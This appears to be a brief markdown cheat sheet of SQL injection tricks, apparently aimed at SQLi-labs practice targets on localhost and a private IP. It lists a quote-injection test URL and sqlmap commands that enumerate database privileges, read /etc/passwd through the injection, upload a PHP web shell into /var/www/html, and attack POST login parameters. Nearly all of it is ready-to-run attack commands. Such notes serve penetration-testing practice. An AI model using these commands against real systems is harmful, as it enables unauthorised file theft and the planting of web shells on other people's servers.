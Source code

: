 # SQLI tricks

## GET

### Error-Based

### Simple test

`Adding a simpe quote '`

Example: `http://192.168.1.104/Less-1/?id=5'`

### Checking Privileges

Using Sql-map

`./sqlmap.py -u http://localhost/Less-1/?id=1 --privileges | grep FILE`

### Reading file

`./sqlmap.py -u <URL> --file-read=<file to read>`

`./sqlmap.py -u http://localhost/Less-1/?id=1 --file-read=/etc/passwd`

### Writing file

`./sqlmap.py -u <url> --file-write=<file> --file-dest=<path>`

`./sqlmap.py -u http://localhost/Less-1/?id=1 --file-write=shell.php --file-dest=/var/www/html/shell-php.php`

## POST

`./sqlmap.py -u <POST-URL> --data="<POST-paramters> "`

`./sqlmap.py -u http://localhost/Less-11/ --data "uname=teste&passwd=&submit=Submit" -p uname`

You can also use a file like with the post request:


`./sqlmap.py -r post-request.txt -p uname`




